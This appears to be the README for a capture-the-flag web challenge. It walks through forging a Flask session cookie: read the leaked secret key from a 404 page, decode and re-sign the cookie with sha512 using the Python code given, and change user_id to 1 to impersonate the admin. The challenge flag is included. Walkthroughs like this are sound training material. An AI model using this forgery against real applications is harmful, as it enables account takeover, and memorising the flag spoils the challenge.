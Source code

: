 # Unchanged App Secrets

This is an application which is mostly boilerplate. It was initially intended to provide competitors with a copy of the application which they could stand up locally, however it turns out all you have to do in that case is stand up the application and copy the session cookie over. The challenge now requires at least figuring out how flask sessions work (or just finding this gist: https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe)

# How to Solve

There are a few steps to solving this challenge.

1. Navigate to the 404 page, there you will find `MYFLASKAPP_SECRET Value: secret-key`.
1. Realize that the hint about flask being 512x better than rails means that the digest_method (on the next step) is sha512 instead of sha1 which is the default. That is the reason for the `BoilerplateSecureCookieSessionInterface` class below.
1. Paste the following into a python shell with flask installed (most of the code below is from the gist, with the `BoilerplateSecureCookieSessionInterface` as described above):

		from flask.sessions import SecureCookieSessionInterface
		from itsdangerous import URLSafeTimedSerializer
		import hashlib

		class BoilerplateSecureCookieSessionInterface(SecureCookieSessionInterface):
		    digest_method = staticmethod(hashlib.sha512)

		class SimpleSecureCookieSessionInterface(BoilerplateSecureCookieSessionInterface):
			# Override method
			# Take secret_key instead of an instance of a Flask app
			def get_signing_serializer(self, secret_key):
				if not secret_key:
					return None
				signer_kwargs = dict(
					key_derivation=self.key_derivation,
					digest_method=self.digest_method
				)
				return URLSafeTimedSerializer(secret_key, salt=self.salt,
				                              serializer=self.serializer,
				                              signer_kwargs=signer_kwargs)

		def decodeFlaskCookie(secret_key, cookieValue):
			sscsi = SimpleSecureCookieSessionInterface()
			signingSerializer = sscsi.get_signing_serializer(secret_key)
			return signingSerializer.loads(cookieValue)

		# Keep in mind that flask uses unicode strings for the
		# dictionary keys
		def encodeFlaskCookie(secret_key, cookieDict):
			sscsi = SimpleSecureCookieSessionInterface()
			signingSerializer = sscsi.get_signing_serializer(secret_key)
			return signingSerializer.dumps(cookieDict)

1. Create a new account on the application and copy your session value.
1. Back on the python shell, run `decodeFlaskCookie('secret-key', <your session token here>)`, it will look something like `decodeFlaskCookie('secret-key', '.eJwlj0lqAzEQAP-isw_qRa2WP2PUGwmBBGbsU8jfPZAHFFX12x515PnR7s_jlbf2-Ix2bzxiFVJsojkNo8ci50IOdSZw1GRfIuEx0aQHFUYo1N5Bg3FowFoBkWTsCi6Vm5W4L92KMzMGWi2pXbTBtnSSMaHPEXBp2635edTj-fOV31ePMHWvyxu9bOFAZkUz24Vp2qcPkYTki3udefxPQPt7A_JOP5o.DbkblQ.zCMssdyQeSQaNfbN0REwFpGDlD8p2jgzOamNlbGXrKppm5zBkEr_s4Ao54Ay6JgTMP7BqmTOR0T8pwhDPbB1Cw')`.
1. The result of the previous command will look something like `{'_fresh': True, '_id': '45d9f23da3377b2d0d93c4f24d8c431c28e4c966dcd72b60d3f2dd81faad354258d199d1de3b4c81c6fea4834098a827eed52bf96faf3a1ba6036571075d13da', 'csrf_token': '6430cf1c2d0fb92524482bbbaf2eb807c566e1e4', 'user_id': '2'}`
1. Manipulate the `user_id` in the response to be `1`, allowing you to impersonate the admin user.
1. Run `encodeFlaskCookie('secret-key', {'_fresh': True, '_id': '45d9f23da3377b2d0d93c4f24d8c431c28e4c966dcd72b60d3f2dd81faad354258d199d1de3b4c81c6fea4834098a827eed52bf96faf3a1ba6036571075d13da', 'csrf_token': '6430cf1c2d0fb92524482bbbaf2eb807c566e1e4', 'user_id': '1'})` in order to generate a new session token.
1. Replace the session token in the browser with your new session token and refresh the page.
1. The flag will appear.

# Flag

MCA{give_me_my_session_back!}